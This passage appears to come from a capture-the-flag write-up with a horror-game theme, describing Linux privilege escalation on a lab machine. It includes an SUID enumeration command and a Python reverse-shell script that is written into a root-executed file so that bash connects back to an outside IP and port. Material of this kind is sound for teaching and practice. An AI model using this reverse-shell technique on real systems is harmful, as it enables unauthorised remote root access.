stuff = ["I am watching you.","No one can hide from me.","Ruvik ...","No one shall hide from me","No one can escape from me"]
sentence = "".join(random.sample(stuff,1))
subprocess.call("echo %s > /home/kidman/.the_eye.txt"%(sentence),shell=True)
```

user level and edit this file, but it executes with root level privileges.  

Check for SUID permissions:

`:> find / -perm -u=s 2>/dev/null`  

```md
/bin/fusermount
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping
/bin/ping6
/bin/umount
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/passwd
/usr/bin/gpasswd
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
```

...decided reverse shell would be easier...  

`:> nano /var/.the_eye_of_ruvik.py`

```python
#!/usr/bin/python3

import socket
import subprocess
import os

SERVER_HOST="10.65.122.158"
SERVER_PORT=4040

s=socket.socket()
s.connect((SERVER_HOST, SERVER_PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash","-i"]) 

```

  


## Defeat Ruvik

`:> deluser ruvik`  


  


